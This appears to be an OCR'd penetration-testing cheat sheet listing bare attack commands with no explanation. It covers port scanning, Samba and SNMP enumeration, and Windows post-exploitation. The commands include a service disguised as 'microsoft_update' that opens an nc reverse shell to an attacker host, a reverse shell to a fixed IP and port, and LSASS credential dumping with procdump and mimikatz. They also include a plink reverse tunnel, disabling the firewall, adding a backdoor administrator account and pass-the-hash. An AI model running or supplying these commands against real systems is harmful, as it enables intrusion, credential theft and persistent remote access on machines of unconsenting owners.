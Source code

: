 nc -v -w 1 target -z 1-1000
for i in {101..102}; do nc -vv -n -w 1 192.168.56.$i 21-25 -z; done
Unicornscan
us -H -msf -Iv 192.168.56.101 -p 1-65535
us -H -mU -Iv 192.168.56.101 -p 1-65535

-H resolve hostnames during the reporting phase
-m scan mode (sf - tcp, U - udp)
-Iv - verbose
Xprobe2 OS fingerprinting
xprobe2 -v -p tcp:80:open IP
Samba Enumeration
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
SNMP Enumeration
snmpget -v 1 -c public IP
snmpwalk -v 1 -c public IP
snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP
Windows Useful cmds
net localgroup Users
net localgroup Administrators
search dir/s *.doc
system("start cmd.exe /k $cmd")
sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits
PuTTY Link tunnel
Forward remote port to local address
cmd.exe /c echo y | .\plink.exe -P 22 -l <USER> -pw "password" -R PORT_TO_FORWARD:127.0.0.1:ATTACKER_PORT <IP> 2>&1
Meterpreter portfwd
# https://www.offensive-security.com/metasploit-unleashed/portfwd/
# forward remote port to local address
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389
Enable RDP Access
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
Turn Off Windows Firewall
netsh firewall set opmode disable
Meterpreter VNC\RDP
git clone https://github.com/gentilkiwi/mimikatz.git
privilege::debug
sekurlsa::logonPasswords full
Mimikatz use
net user test 1234 /add
net localgroup administrators test /add
Passing the Hash
git clone https://github.com/byt3bl33d3r/pth-toolkit
pth-winexe -U hash //IP cmd
